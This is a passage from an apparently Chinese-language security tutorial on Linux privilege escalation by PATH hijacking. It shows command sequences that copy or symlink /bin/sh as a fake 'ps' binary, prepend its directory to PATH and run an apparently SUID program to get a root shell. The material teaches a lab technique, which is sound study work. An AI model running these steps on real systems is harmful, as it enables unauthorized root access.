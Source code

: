 **copy命令**

```bash
cd /home/raj/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```

![image-20231120230925690](assets/image-20231120230925690.png)

symlink命令

```bash
ln -s /bin/sh ps
export PATH=.:$PATH
./shell
id
whoami
```

注意：symlink也就是符号链接，如果目录拥有所有权限的话，也是能够成功运行的。在Ubuntu中，在符号链接情况下，我们已经赋予了/script目录777权限。
 因此，我们看到攻击者可以控制环境变量PATH来提权并获取root权限，如图：

![image-20231120231003427](assets/image-20231120231003427.png)

## 9.2 一般题目攻击姿势
